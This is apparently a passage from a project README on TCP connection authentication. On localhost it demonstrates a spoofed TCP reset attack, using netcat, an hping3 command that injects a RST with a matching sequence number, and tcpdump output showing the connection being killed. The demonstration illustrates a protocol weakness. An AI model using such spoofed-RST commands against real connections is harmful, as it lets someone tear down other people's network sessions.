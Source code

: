 ```
15:28:53.166820 IP 127.0.0.1.45094 > 127.0.0.1.12345: Flags [F.], seq 7, ack 152, win 350, options [nop,nop,TS val 10915779 ecr 10912553], length 0
15:28:53.167611 IP 127.0.0.1.12345 > 127.0.0.1.45094: Flags [F.], seq 152, ack 8, win 342, options [nop,nop,TS val 10915779 ecr 10915779], length 0
15:28:53.167649 IP 127.0.0.1.45094 > 127.0.0.1.12345: Flags [.], ack 153, win 350, options [nop,nop,TS val 10915779 ecr 10915779], length 0
```

## Susceptive to RSTs
Using the above setup, a spoofed RST can disrupt the connection.  For example, start a TCP server just like before:
```
root@linux:~/tcpauth# nc -l -p 12349 -k -c 'xargs -n1 /usr/games/cowsay'
```
Handshake the TCP server.
```
root@linux:~/tcpauth# nc 127.0.0.1 12349
...do not write anything...
```

Spoof a RST targetting the established connection above:
```
root@linux:~# hping3 -c 1 -p 12349 --baseport 47740 --keep -w 0 -M 3724485825 -R 127.0.0.1
HPING 127.0.0.1 (lo 127.0.0.1): R set, 40 headers + 0 data bytes

--- 127.0.0.1 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

Observe the connection fail on the server side:
```
root@linux:~/tcpauth# nc -l -p 12349 -k -c 'xargs -n1 /usr/games/cowsay'
xargs: error closing file
```

Write something from the client to the defunct connection:
```
root@linux:~/tcpauth# nc 127.0.0.1 12349
hello?
```
Enhance.
```
root@linux:~# tcpdump -nn -i lo port 12349
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
16:49:53.493674 IP 127.0.0.1.47740 > 127.0.0.1.12349: Flags [S], seq 3724485824, win 43690, options [mss 65495,sackOK,TS val 11401812 ecr 0,nop,wscale 7], length 0
16:49:53.493700 IP 127.0.0.1.12349 > 127.0.0.1.47740: Flags [S.], seq 931058450, ack 3724485825, win 43690, options [mss 65495,sackOK,TS val 11401812 ecr 11401812,nop,wscale 7], length 0
16:49:53.493718 IP 127.0.0.1.47740 > 127.0.0.1.12349: Flags [.], ack 1, win 342, options [nop,nop,TS val 11401812 ecr 11401812], length 0
...spoof begin...
16:50:28.209790 IP 127.0.0.1.47740 > 127.0.0.1.12349: Flags [R], seq 3724485825, win 0, length 0
...spoof end...
16:50:44.948485 IP 127.0.0.1.47740 > 127.0.0.1.12349: Flags [P.], seq 1:8, ack 1, win 342, options [nop,nop,TS val 11406958 ecr 11401812], length 7
16:50:44.948516 IP 127.0.0.1.12349 > 127.0.0.1.47740: Flags [R], seq 931058451, win 0, length 0
```
Here we see the handshake succeed followed by the spoofed RST segment attacking the server.  The client then attempts to send it's valid data but is met with a reset from the server as the connection no longer exists.
